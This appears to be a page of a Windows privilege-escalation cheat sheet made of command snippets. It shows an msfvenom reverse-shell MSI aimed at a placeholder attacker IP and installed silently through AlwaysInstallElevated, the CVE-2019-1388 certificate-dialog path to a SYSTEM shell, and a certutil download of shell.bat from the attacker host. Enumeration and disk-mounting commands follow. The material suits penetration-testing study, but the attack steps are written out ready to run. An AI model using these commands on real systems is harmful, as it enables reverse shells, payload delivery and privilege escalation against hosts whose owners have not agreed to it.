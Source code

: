 #### Always Install Elevated
```cmd
# Step 1: Check registry settings
reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer

# Step 2: Generate MSI payload
msfvenom -p windows/shell_reverse_tcp lhost=<Attacker_IP> lport=<Port> -f msi > aie.msi

# Step 3: Execute MSI
msiexec /i c:\users\<user>\desktop\aie.msi /quiet /qn /norestart
```

#### CVE-2019-1388
```cmd
# Step 1: Right-click hhupd.exe -> Run as administrator
# Step 2: Show information about publisher's certificate
# Step 3: Click on Issued by hyperlink
# Step 4: Browser opens as SYSTEM
# Step 5: Right-click -> View page source
# Step 6: Right-click -> Save as
# Step 7: Type c:\windows\system32\cmd.exe and press Enter
```

#### Living Off The Land (LOLBAS)
```cmd
# File transfer with certutil
certutil.exe -urlcache -split -f http://<Attacker_IP>/shell.bat shell.bat

# Encoding/Decoding
certutil -encode file1 encodedfile
certutil -decode encodedfile file2
```

#### User/Computer Description Field
````powershell
# Checking Local User Description Field
> Get-LocalUser

# Enumerating Computer Description Field with Get-WmiObject Cmdlet
> Get-WmiObject -Class Win32_OperatingSystem | select Description
````

#### Scheduled Tasks
````
# Enumerating Scheduled Tasks
> schtasks /query /fo LIST /v
> Get-ScheduledTask | select TaskName,State
````

#### Mount Virtual Disks
```cmd
# Windows: Right-click .vhd/.vhdx file -> Mount
# Or use Disk Management

# Linux:
guestmount -a SQL01-disk1.vmdk -i --ro /mnt/vmdk
guestmount --add WEBSRV10.vhdx --ro /mnt/vhdx/ -m /dev/sda1
```

---